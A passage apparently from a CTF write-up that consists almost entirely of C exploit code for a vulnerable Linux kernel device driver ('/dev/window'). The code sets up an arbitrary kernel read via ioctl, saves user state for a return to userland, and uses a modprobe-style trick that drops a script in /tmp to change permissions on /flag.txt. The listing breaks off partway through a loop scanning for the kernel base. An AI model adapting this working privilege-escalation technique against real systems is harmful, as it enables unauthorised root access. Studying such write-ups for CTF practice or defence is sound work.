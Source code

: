 So our finale exploit code is:

```c
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdbool.h>

#define device_ioctl 0x1337
int fd;

unsigned long arb_read(unsigned long ptr) {
        unsigned long leak[0x108/8] = {0};
        leak[0] = ptr;
        ioctl(fd, device_ioctl, leak);
        return leak[1];
}

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}


void get_root(void){
	system("echo -e '#!/bin/sh\nchmod 777 /flag.txt' > /tmp/m");
	system("chmod +x /tmp/m");
	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
	system("chmod +x /tmp/dummy");
	system("/tmp/dummy");
	system("cat /flag.txt");
	exit(0);
}

int main(){

	save_state();

	fd = open("/dev/window", O_RDWR);
	if (fd < 0){
		printf("Cannot open device\n");
		return -1;
	}
	printf("[+] Device Opened\n");


	unsigned long kbase = 0xffffffff80000000; // kernel base smallest address
	bool go = true;
	while(go){
		unsigned long response;
		unsigned long leak[32] = {0};
		leak[0] = kbase;
```